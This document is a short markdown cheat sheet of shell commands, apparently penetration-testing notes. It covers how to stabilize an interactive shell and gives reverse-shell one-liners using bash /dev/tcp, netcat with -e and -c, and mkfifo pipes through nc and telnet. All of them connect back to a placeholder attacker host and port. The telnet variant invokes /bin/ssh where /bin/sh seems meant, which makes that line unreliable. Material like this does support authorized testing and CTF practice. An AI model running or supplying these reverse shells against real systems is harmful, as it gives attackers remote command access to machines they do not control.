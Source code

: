 # Shells

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

## Reverse shells

### Bash

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

### Netcat

```text
nc -e /bin/sh <LHOST> <LPORT>
nc -c /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y
```

### Telnet

```text
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

